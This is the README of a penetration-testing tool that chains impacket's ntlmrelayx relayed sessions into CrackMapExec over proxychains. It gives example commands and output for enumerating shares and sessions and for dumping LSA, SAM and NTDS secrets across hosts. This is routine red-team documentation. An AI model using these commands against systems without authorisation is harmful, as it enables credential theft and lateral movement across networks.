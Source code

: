 # ntlmrelayx2proxychains

## Introduction
[ntlmrelayx2proxychains](https://github.com/He-No/ntlmrelayx2proxychains) aims to connect the tool of the [SecureAuthCorps'](https://github.com/SecureAuthCorp) [impacket](https://github.com/SecureAuthCorp/impacket) suite, ntlmrelayx.py (hereafter referred to as "ntlmrelayx"), along with @[byt3bl33d3r](https://github.com/byt3bl33d3r)'s tool, [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (hereafter referred to as "CME"), over [proxychains](https://github.com/haad/proxychains), developped by [haad](https://github.com/haad).

Currently, when having active relays via ntlmrelayx.py, you need to manually provide user, domain, and ip address in CME over proxychains. The idea behind this tool is to automate this process. 

So have you ever felt too lazy to **explore all shares, loggedin users, sessions, disks, and/or password policy** manually after using ntlmrelayx **or** felt too lazy to **dump the lsa, sam, and/or ntds** on all systems where you found a local administrator? If so, you'll for sure enjoy [ntlmrelayx2proxychains](https://github.com/He-No/ntlmrelayx2proxychains)! :) 

##  Help!

  This tools' help-page can be consulted via CLI using the `-h` or the `--help`parameter.

    $python3 ntlmrelay2proxychains.py --help
        Usage:
                $python3 ntlmrelay2proxychains.py --action {shares|lsa|sam|...} [--exclude] [--adminonly] [--help]
        
        
        Required argument:
                -a, --action            possible actions {shares|lsa|sam|ntds|sessions|disks|loggedon-users|pass-pol|???}
        
        
        Optional arguments:
                -h, --help              shows this help message and exits
                -e, --exclude           exludes ips listed in the file checked_ips.txt
                -A, --adminonly         only executes the command if the user is local admin on the IP
        
        
        Credits:
                This tool was made by @BugZ_GENK
        
        
        Disclaimer:
                Use with care, on your own risk! (and other legal blabla indicating you are NOT using this tool on my responsibility/accountability :))

## Requirements
This tool requires you to have **proxychains configured, Python3 and CME installed, and ntlmrelayx running using socks mode**.

## Required argument
As can be read above, the `-a` or `--action` parameter is **required**. Using this parameter you specify what comes at the end of your command in CME. 

**Example:**
When using ntlmrelayx2proxychains in the following way 

    $ python3 ntlmrelayx2proxychains -a shares
    
   The following command is executed in the background:

    $ proxychains crackmapexec smb -u "victim" -p "" -d "contoso" 10.10.10.10 --shares

## Optional arguments
### Exclude IPs
Starting of with the explanation of the parameter `--exclude` (or the short version `-e`).

This parameter expects no further input via CLI, but checks the file `checked_ips.txt` (created on the first run of this tool). In this file you can specify IPs you want `ntlmrelayx2proxychains.py` to skip.

This can be useful when, ***e.g.*** , exploring shares. During your security assessment, you find a share where you have full read/write access. You fully crawl through this share, but can't find anything interesting. At this point, you are given the option to exclude this endpoint so it does not keep showing up over an over again, while you have already thoroughly investigated these shares. 

**Example:**

Example of `checked_ips.txt`:

    $cat checked_ips.txt
    10.10.10.10
    127.0.0.10
    192.168.0.10

The following output will be generated by `ntlmrelayx2proxychains.py`:

     $python3 ntlmrelay2proxychains.py -a shares -e
    ===========> Configuration Overview <===========
    Action set to: shares
    Showing only admins: False
    Actively excluding IPs: True
    -> Excluded IPs: 10.10.10.10, 127.0.0.10, 192.168.0.10
    =========> Hendrik "@BugZ_GENK" Noben <=========
    [SNIP]
Note, `Actively excluding IPs:` is set to `True` and `--> Excluded IPs: [SNIP]` sums up all IPs that are excluded.

### Adminonly
The next built-in parameter ntlmrelayx2proxychains supports is the parameter `--adminonly` (or the short version `-A`).

This parameter expects no further input at all. It just checks the ntlmrelayx API where it found relays for users that are local administrator on that particular endpoint.

This can be useful when, ***e.g.*** , dumping LSA secrets from target systems, as this operation can only be performed by users have local admin rights.

**Example:**

The following output will be generated by `ntlmrelayx2proxychains.py`:

     $python3 ntlmrelay2proxychains.py -a lsa -A
    ===========> Configuration Overview <===========
    Action set to: lsa
    Showing only admins: True
    Actively excluding IPs: False
    =========> Hendrik "@BugZ_GENK" Noben <=========
    [SNIP]

## Example run

   

    $ python3 ntlmrelay2proxychains.py -a shares
    ===========> Configuration Overview <===========
    Action set to: shares
    Showing only admins: False
    Actively excluding IPs: False
    =========> Hendrik "@BugZ_GENK" Noben <=========
    
    [*] Grepping your current relays......
    [*] Beautifying the json file......
    
    [*] Setting domain......
    [OK] Domain is: DUM
    
    [*] Ready, set, GO!
    proxychains crackmapexec smb -u "SRV-0001$" -p "" -d CONTOSO 10.10.10.5 --shares
    ProxyChains-3.1 (http://proxychains.sf.net)
    [SNIP]
    
    proxychains crackmapexec smb -u "VICTIM" -p "" -d CONTOSO 10.10.10.10 --shares
    ProxyChains-3.1 (http://proxychains.sf.net)
    [SNIP]

## TODO

- [ ] When using -A, only make one call per IP address (as all users are local admin, they have full rights anyway, so no need to keep querying the endpoint).
- [ ] Implement -o {outputfile}, so the output can be saved to a file in a clean way.
- [ ] Ensure on CTRL+C the script terminates
